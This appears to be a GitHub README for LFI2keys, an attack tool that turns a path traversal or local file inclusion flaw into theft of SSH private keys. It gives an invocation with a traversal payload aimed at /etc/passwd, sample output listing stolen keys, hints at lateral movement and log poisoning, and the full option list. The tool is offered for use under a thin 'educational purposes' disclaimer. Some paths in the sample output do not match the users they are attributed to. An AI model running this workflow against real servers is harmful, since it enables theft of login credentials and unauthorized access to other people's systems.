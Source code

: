 ## Summary
Found a local file inclusion or path traversal vulnerability? Automate the extraction of SSH private keys with LFI2keys. It uses the exposed `/etc/passwd` file to extract valid users, checks for commonly named SSH keys, and gathers useful SSH configuration details from `/etc/ssh/sshd_config`.

## Usage
Provide the full URL of the vulnerable endpoint where you can read the `/etc/passwd` file, and supply a private key [wordlist](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists). Use the `-v` parameter for verbose output and for printing the found private key.

```bash
┌──(kali㉿DC07 | 2025-02-12 00:13:37)-[~]
└─$ python3 lfi2keys.py -u https://127.0.0.1/cgi-bin/.%2e/.%2e/etc/passwd -l ssh-priv-key-loot-extended.txt -a -o keys.txt

  _    ___ ___ ___ _  _______   _____ 
 | |  | __|_ _|_  ) |/ / __\ \ / / __|
 | |__| _| | | / /|   <| _| \ V /\__ \
 |____|_| |___/___|_|\_\___| |_| |___/

LFI to SSH Private Keys - Automated Looting Script

[*] The script provided is for educational purposes only, I am not responsible for your actions.
[+] Valid /etc/passwd file found
[+] Valid users exported:
    root -> /root (UID: 0)
    miranda -> /home/miranda (UID: 1001)
    steven -> /home/steven (UID: 1002)
    mark -> /home/mark (UID: 1003)
    nick -> /home/nick (UID: 1004)
[+] /etc/ssh/sshd_config file found
    PermitRootLogin: disabled
    PubkeyAuthentication: enabled
    PasswordAuthentication: disabled
    ChallengeResponseAuthentication: disabled
[+] Checking for SSH metadata (authorized_keys, known_hosts and .ssh/config)...
[!] Found authorized_keys for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/authorized_keys
[!] Found authorized_keys.bak for nick: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/authorized_keys.bak
[!] Found known_hosts for miranda: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/known_hosts
[!] SSH config found for mark (https://127.0.0.1/cgi-bin/.%2e/.%2e/mark/.ssh/config) - possible lateral movement
    Host: TestServer
       HostName: 192.168.1.10
       User: Thunderdome
       Port: 2222
       IdentityFile: ~/.ssh/gabber.key
[!] Private key found for mark at: https://127.0.0.1/cgi-bin/.%2e/.%2e/mark/.ssh/gabber.key
[+] Starting to FUZZ
[!] Private key found for nick at: https://127.0.0.1/cgi-bin/.%2e/.%2e/nick/.ssh/id_rsa
[!] Private key found for steven at: https://127.0.0.1/cgi-bin/.%2e/.%2e/home/test/.ssh/id_ecdsa-sk
[+] No accessible SSH keys found for additional directories
[!] Log file found: https://127.0.0.1/cgi-bin/.%2e/.%2e/var/log/auth.log - this file may be used for log poisoning if writable
[+] Results saved to keys.txt
[+] Done (～￣▽￣)～
```

## Options
```bash
  -h, --help            show this help message and exit
  -u, --url URL         LFI URL pointing to /etc/passwd
  -l, --list LIST       Wordlist containing SSH private key names
  -o, --output OUTPUT   File to save found private key URLs and contents
  -p, --proxy PROXY     Proxy URL (e.g., http://127.0.0.1:8080)
  -v, --verbose         Enable verbose mode for debugging
  -a, --all             Also search the entire home directory and additional paths
  --ignore-403          Continue scanning even if a 403 status code is encountered
  --no-rate-limit       Disable rate limiting on proxy (for debug/testing purposes)
  -c, --continue-on-success
                        Continue scanning all users for private keys even after a match is found
```

## Disclaimer
The script provided is for educational purposes only, I am not responsible for your actions.

### Credits
- [PinoyWH1Z](https://github.com/PinoyWH1Z) for his [SSH private key wordlists](https://github.com/PinoyWH1Z/SSH-Private-Key-Looting-Wordlists).
